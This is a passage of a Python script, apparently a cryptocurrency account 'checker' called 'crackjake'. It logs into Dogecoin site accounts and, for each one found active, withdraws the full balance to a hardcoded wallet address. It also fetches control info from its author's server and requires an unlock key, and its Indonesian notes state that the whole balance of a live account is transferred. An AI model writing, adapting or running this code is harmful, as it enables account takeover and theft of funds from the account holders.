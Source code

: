 ```python
        global tt
        tt += 1
    if balance >= 1:
        withdraw(balance)
    else:
        pass
def withdraw(balance):
    wd_amount = int(balance)
    jum1_wd = wd_amount / 100000000
    address = "DSQBo4tCDuGLRKaW2Sur4XPk25r7d1C6dm"
    withdraw = 'a=Withdraw&s='+session+'&Amount='+str(wd_amount)+'&Address='+address+'&Totp=&Currency=doge'
    wd = scr.post(url_login, data=withdraw, headers=headers).json()
    print("Successfull Withdraw :",jum1_wd,"DOGE")
    Successfull += 1
    return Successfull
tt = 0
scs = 0
try:
    os.system('clear')
    info = scr.get("https://layscape.xyz/crackjake/info.php", timeout=10).json()
    print(hijau,"Successfull Get Server Information")
    time.sleep(2)
    os.system('clear')
except Exception as e:
    print(merah+"Can't Connect To Layscape Server to Get Information Script. Try Again"+putih)
    print(merah+"1. Maybe Server Down"+putih)
    print(merah+"2. Try Update New Script"+putih)
    print(e)
    sys.exit()

version = info['versi']
print("\033[1;31m====================================================\033[0m")
print("\033[1;32m[+]\033[0m \033[0;36mDO WITH YOUR OWN RISK \033[0m \033[1;32m[+]\033[0m")
print("\033[1;32m[+]\033[0m \033[1;33mCreator : Layscape\033[0m \033[1;32m[+]\033[0m")
print("\033[1;32m[+]\033[0m \033[1;33mVersi Script V2.0\033[0m \033[1;32m[+]\033[0m")
print("\033[1;32m[+]\033[0m \033[1;33mJoin Group Whatsapp For News and Update\033[0m \033[1;32m[+]\033[0m")
print("\033[1;31m====================================================\033[0m")
print("Disclaimer : \nScript Not Working Don't Blame Creator :). \nRead/Watch How to Use As Well")
print("\033[1;31m====================================================\033[0m")
print(kuning+"Info :"+info['notice5']+putih)
print("\033[1;31m====================================================\033[0m")
print(hijau+"Information Script :")
print("Versi :",info['versi'])
print("Creator :", info['created'])
print("Youtube :", info['youtube'])
print("Script :", info['script']+putih)
if "2.0" == version:
    print(hijau+"Latest Version"+putih)
else:
    print(merah+"Old Version Go Update This Script"+putih)
    sys.exit()
print(birutua+"Perlu Diingat Bahwa")
print(kuning+"1. Perlu kehokian, karena sifat script checker bukan hacking/phising")
print("2. Kalau Statusnya Alive semua balance di akun tersebut akan")
print("Ditransfer ke wallet")
print("3. Versi Premium dalam tahap pengembangan")
print("4. Belum Support Multi Currency, Doge Only",putih)
print("\n Ambil Key di http://bit.ly/layscapecrackjake")
key = input(kuning+"Masukan Key Untuk Membuka Script : "+putih)
reqkey = scr.post('http://layscape.xyz/crackjake/keycrackjake.php', data={'key':key}).json()
if reqkey['status'] == 'LayscapeKumaru@@2012#*#*':
```